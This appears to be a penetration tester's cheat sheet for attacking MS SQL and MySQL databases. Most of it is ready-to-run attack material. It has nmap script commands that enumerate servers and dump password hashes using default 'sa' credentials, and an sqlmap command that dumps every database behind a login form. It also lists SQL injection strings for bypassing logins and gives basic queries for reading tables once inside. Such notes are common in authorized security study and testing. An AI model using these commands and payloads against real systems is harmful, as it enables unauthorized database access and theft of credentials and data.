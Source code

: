 # **MS SQL**

  

## nmap -vv -sV -Pn -p <> --script=ms-sql-info,ms-sql-config,ms-sql-dump-hashes --script-args=mssql.instance-port=1433,smsql.username-sa,mssql.password-sa

x.x.x.x  
  

## nmap -sV -Pn -vv --script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122

x.x.x.x  
  

## nmap -sV -Pn -vv -script=mysql* $ip -p 3306

  
  

## sqlmap -u '

[http://$ip/login-off.asp'](http://%24ip/login-off.asp')

## --method POST --data 'txtLoginID=admin&txtPassword=aa&cmdSubmit=Login' --all --dump-all

  
  
  
  
mysql -u root -p -h x.x.x.x  

##   
Common Injections for Login Forms:  
admin' --  
admin' #  
admin'/*  
' or 1=1--  
' or 1=1#  
' or 1=1/*  
') or '1'='1--  
') or ('1'='1—

  ![](Screenshots/752-1.png)

Show databases;  
use <database name>;  
show tables;  
select * from <table name>